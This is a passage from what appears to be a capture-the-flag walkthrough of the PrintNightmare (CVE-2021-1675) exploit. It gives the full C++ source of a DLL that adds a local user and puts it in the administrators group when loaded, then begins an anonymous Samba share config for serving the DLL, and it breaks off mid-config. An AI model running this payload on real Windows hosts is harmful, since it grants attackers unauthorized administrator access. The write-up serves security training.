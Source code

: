 

#### DLL

[Cube0x0's exploit](https://github.com/cube0x0/CVE-2021-1675) for
PrintNightmare works remotely with creds. First, I'll need to build a
Dll. I've walked through this in [detail before for
HackBack](/htb-hackback.md#arbitrary-write--diaghub--system).
I'll follow a similar set of steps to create a C++ DLL project, and use
the following source for my Dll:



    // dllmain.cpp : Defines the entry point for the DLL application.
    #include "pch.h"
    #include <stdlib.h>

    BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c net user 0xdf 0xdf0xdf /add");
            system("cmd.exe /c net localgroup administrators 0xdf /add");
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }



The `DllMain` function will be called for various reasons, one of which
is when a process loads the DLL. In that case, the `ul_reason_for_call`
will be `DLL_PROCESS_ATTACH`. So the DLL will be loaded, will execute
these two system commands, and then be done. I'll compile that and copy
it back to my Parrot VM.

#### Samba

Cube0x0 has an example Samba config to allow for anonymous access on his
GitHub page. It's important that the user on the last line exists on
your host. I updated mine to match a user I had configured with access
to nothing.



    [global]
        map to guest = Bad User
        server role = standalone server
        usershare allow guests = yes
        idmap config * : backend = tdb
        smb ports = 445
